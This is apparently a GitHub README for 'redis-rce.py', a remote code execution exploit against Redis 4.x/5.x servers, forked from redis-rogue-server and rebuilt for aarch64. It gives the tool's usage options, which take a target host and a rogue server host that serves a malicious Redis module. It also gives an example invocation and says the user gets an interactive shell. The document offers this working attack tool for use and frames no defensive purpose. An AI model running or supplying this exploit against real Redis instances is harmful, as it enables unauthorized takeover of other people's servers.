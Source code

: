 # Redis RCE

A exploit for Redis 4.x/5.x RCE, inspired by [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

This repo is a modified version of <https://github.com/n0b0dyCN/redis-rogue-server> .
## Usage:

Compile module.so from <https://github.com/RicterZ/RedisModules-ExecuteCommand>.
And changed the architecture from x86 to aarch64


```
usage: redis-rce.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-f FILE]
                    [-a AUTH] [-v]

Redis 4.x/5.x RCE with RedisModules

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 21000
  -f FILE, --file FILE  RedisModules to load, default exp.so
  -a AUTH, --auth AUTH  redis password
  -v, --verbose         show more info
```

## example:
```
python redis-rce.py -r 127.0.0.1 -L 127.0.0.1 -f module.so
```
![redis-rce](https://github.com/user-attachments/assets/9f816e2c-148d-4288-81ef-d6081a5dc64a)
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20190708220258.png)

The default target port is 6379 and the default vps port is 21000.

And you will get an interactive shell!
